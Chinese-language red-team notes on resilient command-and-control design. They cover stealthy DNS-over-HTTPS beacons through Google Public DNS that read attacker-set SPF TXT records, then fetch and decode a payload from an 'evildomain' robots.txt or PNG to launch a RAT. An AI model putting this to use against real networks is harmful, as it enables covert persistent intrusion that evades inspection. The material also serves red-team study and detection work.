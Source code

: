 ### 构建高适应性的C2基础设施
Building resilient C2(command and control) infrastructures

* 持久访问方式(Persistent access)
  * 备用低频方式(long-haul beacons)stage 1
    * 功能极简 - 当所有的 日常高频方式(short-haul beacons) 都失败时 可以恢复对目标网络的访问(Backup channel)
    * 隐蔽性高 - 以尽量不让防御者发现的方式运作的方式：低频率的回调(calls back)、数据量小(如只传递payload的 delivery地址) ...
  * 日常高频方式(short-haul beacons)stage 2
    * 功能完整 - 功能强大的RAT`Cobalt Strike` `Empire` `Slingshot`...
    * 隐蔽性低 - 攻击者日常使用的、较频繁的对目标网络进行操作的方式
* 健壮的C2基础设施 特征
  * channel多样性 - 具有多个channel的持久访问 稳定性强（避免丢失目标网络的权限）
  * channel独立性 - 如果一个channel被发现，不会直接暴露其他channel（避免关联发现其他channel）
  * channel隐蔽性 - 通信流量加密形式或与正常的网络流量混合（避免各种方式的调查）

### 常规过程

`stage 1` -> `stage 2(RAT)`

C2基础设施的稳定性 取决于`stage 1`的方案

### stage 1 的方案 - DNS over HTTPS (DoH)

>通过https协议进行DNS解析 协议参考 [RFC 8484 - DNS Queries over HTTPS (DoH)](https://tools.ietf.org/html/rfc8484)

>具体实施参考 https://outflank.nl/blog/2018/10/25/building-resilient-c2-infrastructues-using-dns-over-https/

* stage 1 : DNS over HTTPS (DoH) 优势与特点
  * 可控字符串 `响应中有部分内容是攻击者可控的`
  * “白”域名 `Google Public DNS` https://dns.google.com/resolve?name=qq.com&type=TXT
  * 流量加密 `Over an SSL-encrypted channel`且许多已实施SSL检查的客户将所有`Google domains`排除在检查范围之外（因为Google产品中的证书，流量负载，隐私等）


**原理**

* 攻击者设置`stager 1`
  * 通过设置该域名 的[TXT record](https://en.wikipedia.org/wiki/TXT_record)中的`SPF records`中的字符串(通常这里放的是 `IP addresses` `domains` `server names`) 在此处放上域名是很合理的 符合隐蔽性高的要求
  * 如`"v=spf1 include:spf.mail.qq.com -all"`  `"v=spf1 ip4:192.0.2.0/24 ip4:198.51.100.123 a -all"`

**发起请求**

`DoH via Google`https GET

`https://dns.google.com/resolve?name=qq.com&type=TXT`

（请求中的url参数值`qq.com`为我们可控的域名evildomain）

**得到响应**

response:
```
{
  "Status": 0,
  "TC": false,
  "RD": true,
  "RA": true,
  "AD": false,
  "CD": false,
  "Question": [
    {
      "name": "qq.com.",
      "type": 16
    }
  ],
  "Answer": [
    {
      "name": "qq.com.",
      "type": 16,
      "TTL": 3329,
      "data": "\"v=spf1 include:spf.mail.qq.com -all\""
    }
  ]
}
```

在响应中看到 可控字符串（其中data字段中的字符串内容为我们可控的）


* 目标主机的`stage 1`执行顺序
  * `SPFstager`定期查询内容：提取DNS`TXT record`中`SPF records`的信息
  * `SPFtrigger`
    * 触发条件
      * 当发现了`SPF records`中的新域名时 得到了域名evildomain
    * 提取隐藏信息-方案a`http-robots.txt`
      * `SPFtrigger`程序根据evildomain域名 访问`http://evildomain/robot.txt`提取`payload` 进行decode得到raw payload
      * https://github.com/outflanknl/DoH_c2_Trigger/blob/master/DoHtrigger.ps1
    * 提取隐藏信息-方案b`http-xxx.png`
      * `SPFtrigger`程序根据evildomain域名 访问`http://evildomain/date.png`提取`payload` 进行decode得到raw payload
      * https://github.com/peewpw/Invoke-PSImage
  * 触发执行 - `payload triggering`(stage 2)
